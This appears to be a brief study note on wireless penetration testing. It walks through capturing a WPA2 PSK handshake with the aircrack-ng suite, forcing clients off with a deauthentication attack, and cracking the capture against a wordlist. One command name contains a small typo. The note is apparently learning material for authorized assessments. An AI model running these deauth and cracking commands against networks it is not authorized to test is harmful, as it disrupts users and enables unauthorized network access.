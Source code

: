 # Wireless Penetration Testing

## Overview

#### Assessment of Wireless Network

* WPA2 PSK
* WPA2 Enterprise

#### Activities Performed

* Evaluating strength of PSK
* Reviewing nearby networks
* Assessing guest networks
* Checking network access

### Tools Being Used

* Wireless Card
* Router
* Laptop

### The Hacking Process (WPA2 PSK)

* Place - Place wireless card into monitor mode
* Discover - Discover information about network: Channel, BSSID
* Select - Select network and capture data
* Perform - Perform deauth attack
* Capture - Capture WPA handshake
* Attempt - Attempt to crack the handshake

## Exploitation Walkthrough

```bash
# First connect VM to wireless card: Player, REmovable Devices, <Card Name>, Connect
iwconfig  # Check if wlan0 exists
airmon-ng check kill  # Allow us to check for any process that are running and kill them that will interfere
airmon-ng start wlan0
iwconfig  # Check for wlan0mon
airodump-ng wlan0mon  # Check for devices around us
# Identify the device (BSSID) to attack and the channel (CH) and do next steps
airodump -c <CH> --bssid <BSSID> -w capture.txt wlan0mon
# Wait for data to be captured, specifically the WPA handshake
# Can also try to deauth to force people to log back in parallel
aireplay-ng -0 1 -a <BSSID> -c <STATION> wlan0mon
# Can now view the capture files and then attempt to crack the handshake
aircrack-ng -w wordlist.txt -b <BSSID> capture.txt.cap
```

